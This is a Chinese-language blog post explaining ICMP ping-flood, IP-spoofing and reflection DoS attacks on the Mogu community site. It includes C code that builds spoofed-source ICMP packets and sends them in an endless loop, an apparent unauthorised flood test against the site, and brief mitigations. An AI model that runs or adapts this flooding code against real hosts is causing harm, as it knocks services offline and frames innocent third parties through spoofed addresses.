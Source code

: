 大家好，我是**Aprilz**。

最近群里小伙伴学习了一些安全相关的知识，准备拿着**蘑菇社区**来测试，差点把蘑菇搞宕机了，下面让我们一起看看群友 **W** 对**蘑菇**做了些什么吧~

因为没有得到**Aprilz**授权，所以无法对蘑菇博客进行渗透测试，毕竟 **W** 是**遵纪守法**的。

这时群友提出了通过 **ping** 的方式来进行攻击，而 **W** 恰好是一个修网的网工转的安全，所以简单跟大家聊一下这种攻击方法。

一般，比较常见的攻击手段是 **ping** 泛洪攻击，也叫 **ICMP** 洪水攻击是 **DOS** 攻击的一种。其目的是耗尽受害者的带宽，以至于合法的流量不能通过。攻击者向受害者发送许多很大的 **ping** 数据包，消耗受害者网络连接的带宽。

**ping** 命令的简单了解：**echo request** 回响请求（Type=8 code=0）和 **echo reply** 回响应答（Type=0 code=0）。

下面举个栗子：

当我向蘑菇社区发送一个 **Type=8** 的 **ICMP** 报文，蘑菇社区会返回一个 **Type=0** 的 **ICMP** 报文来证明自己的存在。

小Aprilz常用的方式是直接使用 **DOS** 窗口进行 **ping x.x.x.x -l 65500 -t**，此时我们要知道 **ping** 使用的是 **ECHO** 应答，返回的速度很慢 **1-5包/秒** ；

但是 **ICMP** 是 **SOCK\_RAW** 产生的原始报文，在这部分不会有延迟问题，所以延迟的主要来源是计算 **ECHO** 时间.

经 **W** 不辞辛苦的查阅及抓包分析发现是 **icmp.dll** 提供的 **IcmpSendEcho** 这个 **API** 的问题。

**测试阶段**
-------

前提：足够快的数据包发送速度和足够的带宽，下面我们来讲解一下各个攻击方式介绍：

### 直接洪水攻击 >>W采用的方式

需要一台比蘑菇社区服务器带宽更高的主机，采用多线程的方法一次性发送多个 **ICMP** 请求报文，让目的主机忙于处理大量这些报文而造成速度缓慢甚至宕机。

缺点：Aprilz发现了无聊群友的企图，受到攻击后根据 **ICMP** 包的IP地址而屏蔽掉攻击源，使得无聊群友的快乐消失。

### 伪IP攻击

见名知意，就是伪装成群里另外一个小伙伴：**遇见geigei** 的 **ip** 地址，进行挑拨离间。

**图：W主机>>>>>>>>>>蘑菇博客>>>>>>>>>>>>遇见geigei**

     ping伪装ip为x.x.x.x           pong pong将报文发送给遇见geigei

### 反射攻击

让一群背锅侠误以为蘑菇社区在向他们发送 **ICMP** 请求包，然后背锅侠向蘑菇社区发送 **ICMP** 应答包，造成来自四面八方的洪水淹没蘑菇社区的现象。这种攻击非常隐蔽，因为受害主机很难查出攻击源是谁。

 **图：W主机>>>>>>>>>>遇见geigei>>>>>>>>>>>>蘑菇社区（截获攻击者IP=遇见geigei）**

准备工具：此处 **W** 利用的公司的内部工具，因为保密协议原因所以向大家展示了其他人的攻击工具，为了确保蘑菇社区的安全性，工具的最终架构线程发包部分没有挂上来，还请大家谅解

    void DoS_icmp_pack(char* packet)
    {
        struct ip* ip_hdr = (struct ip*)packet;
        struct icmp* icmp_hdr = (struct icmp*)(packet + sizeof(struct ip));
    
        ip_hdr->ip_v = 4;
        ip_hdr->ip_hl = 5;
        ip_hdr->ip_tos = 0;
        ip_hdr->ip_len = htons(ICMP_PACKET_SIZE);
        ip_hdr->ip_id = htons(getpid());
        ip_hdr->ip_off = 0;
        ip_hdr->ip_ttl = 64;
        ip_hdr->ip_p = PROTO_ICMP;
        ip_hdr->ip_sum = 0;
        ip_hdr->ip_src.s_addr = inet_addr(FAKE_IP);; //伪装为遇见geigei的ip地址
        ip_hdr->ip_dst.s_addr = dest;  //填入蘑菇社区主机地址
    
        icmp_hdr->icmp_type = ICMP_ECHO;
        icmp_hdr->icmp_code = 0;
        icmp_hdr->icmp_cksum = htons(~(ICMP_ECHO << 8));
    }
    void Dos_Attack()
    {
        char* packet = (char*)malloc(ICMP_PACKET_SIZE);
        memset(packet, 0, ICMP_PACKET_SIZE);
        struct sockaddr_in to;
        DoS_icmp_pack(packet);
    
        to.sin_family = AF_INET;
        to.sin_addr.s_addr = dest;
        to.sin_port = htons(0);
        while(alive)  
        {
            sendto(rawsock, packet, ICMP_PACKET_SIZE, 0, (struct sockaddr*)&to, sizeof(struct sockaddr));        
        }
    
        free(packet); 
    }
    void Dos_Sig()
    {
        alive = 0;
        printf("stop DoS Attack!\n");
    }

##  测试结果

因为W测试的时候是在公司的原因，所以用了W手机的个人热点进行测试，当峰值达到3.3MB时W的电脑进入蘑菇社区时开始出现宕机卡顿现象

此时有蘑菇和W电脑自身问题的两种可能性， 所以需要Aprilz授权后利用足够的带宽重新测试。

预防手段：

为了防止无聊群友的出现，所以可以采取限制

###  **方法一：限制**

      设置安全策略，在无聊群友多次ping之后，限制大小与次数

### 方法二：禁ping

      部分插件与监测功能会受到影响，所以此处不建议这种方法

### 方法三：过滤

      通过策略来过滤IP进行防范，此方法在无聊群友不伪装IP时非常有效

### 方法四：等等

因为防范的方法太多，而且W也要去学习java了，所以不逐个列举了

最后吐槽一下点我看图，用户在无法访问蘑菇社区时，看到一个张牙舞爪的七旬老伯跳舞心情又要-100，此处W建议将其换成年轻靓丽的妹子。
